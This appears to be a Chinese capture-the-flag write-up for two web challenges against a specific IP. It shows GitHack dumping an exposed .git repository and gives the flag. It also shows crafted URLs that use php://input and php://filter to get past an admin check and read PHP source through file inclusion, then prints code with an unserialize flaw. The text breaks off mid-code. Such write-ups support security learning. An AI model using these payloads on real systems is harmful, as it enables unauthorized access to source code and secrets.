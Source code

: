 ## web14
查看源码提示说是假的403，而且题目中提到了备份，考虑一下可能存在git信息泄露，也就是说在该端口下有.git文件，那么我们就可以用GitHack工具把.git仓库中的文件和代码down下来。

在kali linux中下载安装好GitHack，直接GitHub可以下载。
```shell
cd GitHack
python GitHack.py http://123.206.31.85:10014/.git
```
成功后会在GitHack目录下生成一个123.206.31.85_10014目录，进入该目录就可以看到有两个down下来的文件，cat flag.php即可查看文件内容，得到flag
```
flag{GitIsAFreeVessionControlSyStem}
```

## web21
文件包含、伪协议、代码审计、反序列化
查看源代码：
```
you are not admin !  
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```
user参数可以直接用伪协议php://input然后在请求头后带上admin内容即可。
然后file用文件包含查看index.php和class.php的源代码
```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=class.php
```
pass参数随便给123，请求链接如下：
```
#记得带一个post内容：admin
http://123.206.31.85:10021/index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=index.php&pass=123

http://123.206.31.85:10021/index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php&pass=123
```
得到index.php源码的base64加密，解密可得：
```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
```